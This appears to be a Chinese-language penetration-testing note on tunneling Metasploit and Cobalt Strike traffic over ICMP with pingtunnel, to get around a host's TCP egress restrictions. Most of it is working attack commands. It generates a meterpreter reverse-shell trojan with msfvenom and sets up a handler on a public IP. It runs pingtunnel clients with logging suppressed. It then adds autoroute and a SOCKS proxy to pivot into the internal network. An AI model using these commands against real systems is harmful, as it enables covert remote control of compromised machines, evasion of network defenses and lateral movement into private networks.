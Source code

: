 msf:https://github.com/esrrhs/pingtunnel/releases/

~~~python
机器一（内网-不出网主机）：192.168.52.143
机器三（公网-msf主机）：129.226.92.29



//[机器一]对tcp协议进行了限制，我们运行msf.exe木马后将流量通过icmp给到内网的[机器二]，[机器二]通过命令将icmp变成tcp流量给[机器三]

机器一：


msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=3333 -f exe -o xd.exe

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 4444
exploit

kali开启隧道
./pingtunnel.exe -type server
./pingtunnel -type server
win开启隧道 // 将本地的icmp协议数据转发至msf的4444端口上
pingtunnel.exe -type client -l 127.0.0.1:3333 -s 129.226.92.29 -t 129.226.92.29:4444 -tcp 1 -noprint 1 -nolog 1
~~~

cs

~~~
pingtunnel.exe -type client -l 127.0.0.1:5555 -s 129.226.92.29 -t 129.226.92.29:6666 -tcp 1 -noprint 1 -nolog 1
~~~





~~~

kali-> 
msf需要添加路由，cs不用添加路由
//msf下的meterpreter下查看是否有路由
msfvenom -p windows/meterpreter/reverse_tcp lhost=129.226.92.29 lport=3333 -f exe -o xd1234.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3333
run
run autoroute -p
~~~

[![ppvMzNt.png](https://s1.ax1x.com/2023/04/13/ppvMzNt.png)](https://imgse.com/i/ppvMzNt)

~~~
//添加路由，此时只是msf有路由，但是工具没有路径
run post/multi/manage/autoroute
// 给工具添加路由，建立节点
background
use auxiliary/server/socks_proxy
show options
set SRVPORT 1122
run
~~~
